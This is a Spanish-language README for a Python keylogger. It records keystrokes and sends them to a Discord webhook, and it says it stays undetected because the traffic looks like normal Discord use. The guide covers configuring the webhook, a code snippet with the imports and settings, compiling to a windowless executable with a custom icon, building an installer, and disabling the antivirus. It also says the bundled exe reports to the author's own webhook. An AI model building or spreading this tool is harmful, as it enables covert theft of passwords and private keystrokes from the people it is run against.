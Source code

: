 
# Keylogger que reporta a Discord #

Este script de python capturara todas las teclas apretadas durante una ventana de tiempo predefinida y las reportara a un servidor de Discord por medio de Webhooks. a diferencia de los metodos tradicionales como "Guardar en un txt" o "Enviar a un email", este metodo permanece indetectado ya que los request de webhook son considerados trafico normal de Discord.


## Deployment

- Tener Python instalado en su maquina, descargar el lenguaje desde [aca](https://www.python.org/downloads/).
- Crear una cuenta de discord, como hacerlo [aca](https://youtu.be/dinlzJlzIB4)

## Instalar librerias requeridas
```
python -m pip install -r requirements.txt
```

## Crear un servidor de Discord

Puedes usar [este](https://support.discord.com/hc/en-us/articles/204849977-How-do-I-create-a-server-) articulo para ver como hacerlo.

## Crear un Discord Webhook

Ingresa a la configuracion del servidor y selecciona Intergrations >>  Webhooks y crear un nuevo Webhook, se lo puede customizar y darle un nombre y un icono. Es necesario copiar al URL del webhook.

![screenshot1](https://imgur.com/CuLnE5c.png)

![screenshot2](https://imgur.com/24A58iM.png)

![screenshot3](https://i.imgur.com/i084ESb.png)

## Editar keylogger.py

Ahora que poseemos el webhook podemos editar el script en python. Debemos añadir la url al archivo y asegurarnos de colocar el timeframe en el cual deseamos que el kelogger haga los reportes. 

```Python
import keyboard,os
from threading import Timer
from datetime import datetime
from discord_webhook import DiscordWebhook, DiscordEmbed

SEND_REPORT_EVERY = "TIEMPO_EN_SEGUNDOS_ACA" # Este sin comillas 
WEBHOOK = "URL_DEL_WEBHOOK_ACA"
```

## Ejecutar el script

Una vez hecho eso, podremos ejecutar el script correctamente.
Para ejecutar el script solo debemos colocar esto en la terminal:
```
python keylogger.py
```
si todo sale bien deberiamos ver el reporte en discord despues de esperar el tiempo establecido.
![c2](https://imgur.com/MxKQE7n.png)

## Compilar el script

Para convertir el archivo en un ejecutable necesitaremos la libreria  pyinstaller que fue incluida en el archivo requirements.txt.
Debemos abrir una terminal en el directorio donde se encuentre el archivo.
```
pyinstaller keylogger.py --onefile --noconsole
```
Por si desea un icono custom para el exe.
```
pyinstaller keylogger.py --onefile --noconsole --icon=ejemplo.ico
```

# Instalador

Si se desea crear un instalador para el programa podemos seguir [este](https://www.youtube.com/watch?v=cVN62zhiNH0&t=519s) tutorial


# Notas
- (Es necesario desactivar el windows defender/antivirus para probrar el programa)
- (El exe incluido en este repositorio posee un webhook propio por lo que si lo ejecutan yo recibire los reportes)

